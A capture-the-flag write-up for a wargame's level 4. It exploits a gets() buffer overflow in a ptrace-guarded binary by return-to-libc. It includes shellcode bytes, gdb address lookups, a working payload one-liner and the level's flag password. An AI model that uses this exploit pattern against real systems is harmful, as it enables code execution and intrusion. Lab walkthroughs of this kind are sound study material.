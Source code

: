 # level 4 <buffer overflow attack, return-to-libc>

## Overview
The binary has `gets` function which has vulnerabilitu of `buffer overflow`. But there is also tracking system using `ptrace`, prevent running execve function in child process. Instead, we can use `return-to-libc` to go into the `libc` and run `system` with `/bin/sh`.

## Steps

### vulnerability with `gets`

address of argument of gets: `%esp+0x20` = `0xffffd630`\
address of return address: `%ebp+0x4` = `0xffffd6cc`\
offset = 156 bytes

We tried to write shellcode in the buffer and access there.
```
python -c '''
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "x"*(156-len(shellcode))
address = "\xff\xff\xd6\x30"[::-1]
print shellcode + padding + address
''' > /tmp/04

(gdb) r <<< $(cat /tmp/04)
Starting program: /home/users/level04/level04 <<< $(cat /tmp/04)
Give me some shellcode, k
no exec() for you
[Inferior 1 (process 2007) exited normally]
```
But, this method is blocked by `ptrace` \.
```
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```

#### reference links
[Playing with ptrace](https://www.linuxjournal.com/article/6100)\
[ptrace.h](https://sites.uclouvain.be/SystInfo/usr/include/sys/ptrace.h.html)\
[Exploiting Linux systems with ptrace](https://raj3shp.medium.com/exploiting-linux-systems-with-ptrace-637f13a7d9ea)\
[Intercepting and Emulating Linux System Calls with Ptrace](https://nullprogram.com/blog/2018/06/23/)

### return-to-libc

First, we have to find address of `libc`.
```
(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
0xf7e2b000 0xf7e2c000     0x1000        0x0
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
0xf7fd0000 0xf7fd4000     0x4000        0x0
0xf7fda000 0xf7fdb000     0x1000        0x0
```
There is `/lib32/libc-2.15.so` from `0xf7e2c000` to `0xf7fcc000`.

Then, find address of string "/bin/sh"
```
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

```
objdump -d /lib32/libc-2.15.so | grep system
0003eed0 <__libc_system>:
0xf7e2c000 + 0003eed0 = 0xf7e6aed0

or 

readelf -s /lib32/libc-2.15.so | grep system
   239: 0011ca50    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   615: 0003eed0   141 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1422: 0003eed0   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
#### reference links
[Return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

## Code
### supervised by ptrace

```c
// child
prctl(1, 1);
ptrace(0, 0, 0, 0);
puts("Give me some shellcode, k");
gets(v5);
```
- `prctl(1, 1)` sets the process to receive a SIGHUP signal if its parent process dies.
- `ptrace(PTRACE_TRACEME, 0, 0, 0)` declares that the current process should be traced by its parent, often used in debugging scenarios.

```c
// parent
do
{
  wait(&v4);
  v6 = v4;
  if ( (v6 & 0x7F) == 0 || (v7 = v4, (char)((v4 & 0x7F) + 1) >> 1 > 0) )
  {
    puts("child is exiting...");
    return 0;
  }
  v8 = ptrace(3, v9, 44, 0);
}
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```
- The ptrace with 3(PTRACE_PEEKUSER) as first argument, reads data from the child process's user area.
- The value 11 is significant as it corresponds to the system call number for `execve` in some architectures. This loop effectively monitors whether the child process has called `execve`.

Tip! to debug multi-process program
```
(gdb) set follow-fork-mode child
(gdb) set follow-fork-mode parent
```

## Payload


address of `system` = `0xf7e6aed0`\
address of string, `/bin/sh` = `0xf7f897ec`

```
python -c 'print("x"*156 + "\xf7\xe6\xae\xd0"[::-1] + "xxxx" + "\xf7\xf8\x97\xec"[::-1])' > /tmp/04

cat /tmp/04 - | ./level04
```

## Flag
```
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```